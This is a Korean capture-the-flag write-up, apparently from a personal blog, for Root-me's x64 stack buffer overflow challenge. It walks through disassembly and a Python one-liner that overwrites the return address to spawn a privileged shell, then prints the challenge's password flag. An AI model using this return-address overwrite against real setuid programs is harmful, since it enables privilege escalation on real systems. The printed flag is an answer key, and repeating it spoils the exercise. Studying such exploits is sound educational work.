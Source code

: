 ```yaml
---
layout: post
title: Root-me) ELF x64 stack buffer over flow - basic
date: 2018-07-22 22:41:20 +0900
description: # Add post description (optional)
img: post-2.jpg # Add image post (optional)
tags: [CTF, Root-me]
author: purelledhand # Add name author (optional)
---
```


# 서론 : write-up

함수들을 조회해보면 아래와 같당

    gdb$ info func
    All defined functions:

    Non-debugging symbols:
    0x0000000000400528  _init
    0x0000000000400560  strlen@plt
    0x0000000000400570  system@plt
    0x0000000000400580  printf@plt
    0x0000000000400590  geteuid@plt
    0x00000000004005a0  __libc_start_main@plt
    0x00000000004005b0  __gmon_start__@plt
    0x00000000004005c0  setreuid@plt
    0x00000000004005d0  __isoc99_scanf@plt
    0x00000000004005e0  _start
    0x0000000000400610  deregister_tm_clones
    0x0000000000400640  register_tm_clones
    0x0000000000400680  __do_global_dtors_aux
    0x00000000004006a0  frame_dummy
    0x00000000004006cd  callMeMaybe
    0x00000000004006fc  main
    0x0000000000400760  __libc_csu_init
    0x00000000004007d0  __libc_csu_fini
    0x00000000004007d4  _fini


main에서는 호출되지 않는 callMeMaybe함수를 rip 핸들링을 통해 호출시키는 문제였다.

    gdb$ disas callMeMaybe
    Dump of assembler code for function callMeMaybe:
    0x00000000004006cd <+0>:	push   rbp
    0x00000000004006ce <+1>:	mov    rbp,rsp
    0x00000000004006d1 <+4>:	push   rbx
    0x00000000004006d2 <+5>:	sub    rsp,0x8
    0x00000000004006d6 <+9>:	call   0x400590 <geteuid@plt>
    0x00000000004006db <+14>:	mov    ebx,eax
    0x00000000004006dd <+16>:	call   0x400590 <geteuid@plt>
    0x00000000004006e2 <+21>:	mov    esi,ebx
    0x00000000004006e4 <+23>:	mov    edi,eax
    0x00000000004006e6 <+25>:	call   0x4005c0 <setreuid@plt>
    0x00000000004006eb <+30>:	mov    edi,0x4007e4
    0x00000000004006f0 <+35>:	call   0x400570 <system@plt>
    0x00000000004006f5 <+40>:	add    rsp,0x8
    0x00000000004006f9 <+44>:	pop    rbx
    0x00000000004006fa <+45>:	pop    rbp
    0x00000000004006fb <+46>:	ret    


해당 callMeMaybe함수를 보면 <+30> 라인부터 0x4007e4에 있는 문자열을 system함수의 인자로 넣어 실행시키는 것을 알 수 있다.

    gdb$ x/s 0x4007e4
    0x4007e4:	"/bin/bash"

그 주소에 있는 문자열은 위와 같이 "/bin/bash"였으며 따라서 callMeMaybe함수의 주소를 eip 값으로 넣으면 쉘을 딸 수 있음을 알 수 있었다.

    gdb$ disas main
    Dump of assembler code for function main:
    0x00000000004006fc <+0>:	push   rbp
    0x00000000004006fd <+1>:	mov    rbp,rsp
    0x0000000000400700 <+4>:	sub    rsp,0x120
    0x0000000000400707 <+11>:	mov    DWORD PTR [rbp-0x114],edi
    0x000000000040070d <+17>:	mov    QWORD PTR [rbp-0x120],rsi
    0x0000000000400714 <+24>:	lea    rax,[rbp-0x110]
    0x000000000040071b <+31>:	mov    rsi,rax
    0x000000000040071e <+34>:	mov    edi,0x4007ee
    0x0000000000400723 <+39>:	mov    eax,0x0
    0x0000000000400728 <+44>:	call   0x4005d0 <__isoc99_scanf@plt>
    0x000000000040072d <+49>:	lea    rax,[rbp-0x110]
    0x0000000000400734 <+56>:	mov    rdi,rax
    0x0000000000400737 <+59>:	call   0x400560 <strlen@plt>
    0x000000000040073c <+64>:	mov    DWORD PTR [rbp-0x4],eax
    0x000000000040073f <+67>:	lea    rax,[rbp-0x110]
    0x0000000000400746 <+74>:	mov    rsi,rax
    0x0000000000400749 <+77>:	mov    edi,0x4007f1
    0x000000000040074e <+82>:	mov    eax,0x0
    0x0000000000400753 <+87>:	call   0x400580 <printf@plt>
    0x0000000000400758 <+92>:	mov    eax,0x0
    0x000000000040075d <+97>:	leave  
    0x000000000040075e <+98>:	ret    
    End of assembler dump.


main 함수의 어셈블리를 보면 0x100의 인자를 scanf로 받은 후 Hello [인자] 형태를 printf로 출력해주는 프로그램임을 알 수 있다. (아래 참조)

    app-systeme-ch35@challenge03:~$ ./ch35
    AAAA
    Hello AAAA

scanf함수에 넣은 값은 rbp-0x110부터 들어간다.

    gdb$ x/s $rbp-0x110
    0x38b07867980:	'A' <repeats 47 times>

이제 ret의 주소가 rbp+8이므로 페이로드를 'A'*0x118+[callMeMaybe() 주소값]으로 작성해서 ret값을 callMeMaybe함수의 주소로 덮으면 된다!

    app-systeme-ch35@challenge03:~$ (python -c 'print "A"*0x118+"\xcd\x06\x40\x00\x00\x00\x00\x00"'; cat) | ./ch35
    Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
    ls -al
    total 28
    drwxr-x---  2 app-systeme-ch35-cracked app-systeme-ch35         4096 mai   25  2015 .
    drwxr-xr-x 35 root                     root                     4096 mars  17 09:33 ..
    -rwsr-x---  1 app-systeme-ch35-cracked app-systeme-ch35         8633 mai   24  2015 ch35
    -rw-r-----  1 app-systeme-ch35-cracked app-systeme-ch35          447 mai   24  2015 ch35.c
    -r--------  1 app-systeme-ch35-cracked app-systeme-ch35-cracked   20 mai   24  2015 .passwd
    id
    uid=1235(app-systeme-ch35-cracked) gid=1135(app-systeme-ch35) groups=1235(app-systeme-ch35-cracked),100(users),1135(app-systeme-ch35)
    cat .passwd
    B4sicBufferOverflow
    
풀고 나서 다른 분이 쓰신 라업을 봤는데 페이로드에 주소값을 그냥 빅엔디안으로 쓰고 [:: - 1]을 이용해서 리틀엔디안으로 처리하시더랑
되게 좋은 꿀팁이었당 앞으로 나도 애용해야겠다.


# 본론 : 내가 배운 것


이전에 풀었던 문제들과 비슷한 패턴이었음에도 불구하고 오랫동안 삽질을 했다.

아직 체계가 흐릿하게 잡혔지만 **64비트 바이너리에서 rbp+8이 ret임을 확인**해갔던 과정을 포스팅하면서 다시 정리하고자 한다.

    gdb$ i r
    rax            0x1	0x1
    rbx            0x0	0x0
    rcx            0x0	0x0
    rdx            0x1	0x1
    rsi            0x30d8368e9f0	0x30d8368e9f0
    rdi            0x30d8368d640	0x30d8368d640
    rbp            0x38b27699850	0x38b27699850
    rsp            0x38b27699730	0x38b27699730
    rip            0x40072d	0x40072d <main+49>

    gdb$ x/10gx $rbp+8
    0x38b27699858:	0x0000030d832eff45	0x0000038b27699938

보면 rip의 값은 0x40072d로 다음에 실행될 명령어의 주소를 의미한다.
하지만 rbp+8의 값은 0x40072d가 아닌 값이라 낯설 수 있다.

rbp+8 값의 인스트럭트를 따라가보면 도중에 아래와 같은 내용이 나온다.

    0x0000030d832eff43 <+243>:	call   rax
    0x0000030d832eff45 <+245>:	mov    edi,eax
    0x0000030d832eff47 <+247>:	call   0x30d8330a1e0 <__GI_exit>


<+243> call rax에서 rax의 값을 확인하기 위해 0x0000030d832eff43에 브레이크 포인트(이하 브포)를 걸었다.
이 때 __libc_start_main+0xf3 처럼 주소가 아닌 __libc_start_main으로부터의 오프셋으로 설정해야 브포가 걸렸다. 오프셋도 헥스값으로 주지않으면 브포가 걸리지 않는다.

    gdb$ b *__libc_start_main+0xf3
    Breakpoint 2 at 0x30d832eff43: file libc-start.c, line 287.

    gdb$ i r
    rax            0x4006fc	0x4006fc

이렇게 rax에 main함수의 주소인 0x4006fc가 들어있는 것을 확인할 수 있었다.
정리해보면 함수가 끝난 후 main을 호출하고 exit를 호출하는 로직이다.

<img src="{{site.baseurl}}/assets/img/rootme/system4/stack.JPG" alt="stack" style="width: 400px;"/>

그래서 main을 호출 한 후 return addr이 mov edi, eax가 된 상황이다. 그 이후에는 exit를 호출한 후 main으로 복귀할 것이다.

# 결론

> 1. 64비트 바이너리 환경에서 rbp와 rip, ret의 관계 체계를 정리해볼 수 있었다.
> 2. 페이로드 작성 시 힘들게 리틀엔디안으로 바꾸지 말고 [:: - 1]을 이용하자